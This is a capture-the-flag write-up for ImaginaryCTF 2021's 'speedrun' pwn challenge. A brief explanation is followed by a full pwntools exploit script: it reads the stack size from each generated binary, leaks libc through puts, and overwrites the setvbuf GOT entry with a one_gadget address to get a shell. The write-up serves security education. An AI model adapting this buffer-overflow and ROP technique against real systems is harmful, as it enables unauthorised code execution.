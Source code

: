 Speedrun was a nth variation of aeg type challenge,

automatic exploit generation..

the exploit only call a gets fonction for input, on stack,

and the stack buffer's size for the gets changes at each generation of the executable...

we just made a pwntools program that decode the base64 program,

read the stack buffer size from the binary, (a sub rsp,offset) instruction

then a simple puts(got entry) to get a libc leak, calculate libc base,

and a gets, to write back a onegadget entry on another got entry (setvbuf)

then we call onegadget ..and that's all

ahh yes, I did a first run to identify the remote libc, which was: libc6_2.28-10_amd64.so

that's all..

![](https://github.com/nobodyisnobody/write-ups/raw/main/Imaginary.CTF.2021/pwn/speedrun/pics/gotshell.png)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import base64

host = args.HOST or 'chal.imaginaryctf.org'
port = int(args.PORT or 42020)

io = connect(host,port)

# we receive the base64 encoded file
io.recvuntil('DATA---------------------------\n', drop=True)
encoded = io.recvuntil('----------------------------END  DATA----------------------------', drop=True)
decoded = base64.b64decode(encoded)

# write it to a temporary file
f = open('pipo.bin', 'wb')
f.write(decoded)
f.close()

exe = ELF('pipo.bin')
libc = ELF('./libc.so.6')

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

rop = ROP(exe)

# we read the stack frame size from the binary (could be a 32bit or 8bit displacement)  sub rsp,offset
temp = u8(exe.read(0x401147, 1))
if (temp == 0x81):
  size = u32(exe.read(0x401149, 4))
else:
  size = u8(exe.read(0x401149, 1))

print('stack size: '+str(size)+' ('+hex(size)+')')

# buffer on bss
buff = exe.bss(0xa00)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
gadget_ret = rop.find_gadget(['ret'])[0]

# we dump puts got entry to leak libc address then with gets, we write back a onegadget address in setvbuf got entry, then call the onegadget
payload = 'A'*size+p64(0xdeadbeef)+p64(pop_rdi)+p64(exe.got['puts'])+p64(exe.symbols['puts'])+p64(pop_rdi)+p64(exe.got['setvbuf'])+p64(exe.symbols['gets'])+p64(exe.symbols['setvbuf'])

io.sendline(payload)
io.recvuntil('Thanks!\n', drop=True)

# we recevie our libc leak address
leak = u64( io.recvuntil('\n',drop=True).ljust(8,b'\x00'))
print('leak = '+hex(leak))
libc.address = leak - libc.symbols['puts']
print('libc base = '+hex(libc.address))

# send the one gadget address
onegadgets = one_gadget('libc.so.6', libc.address)
io.sendline(p64(onegadgets[1]))

io.sendline('id;cat flag*')

io.interactive()
```
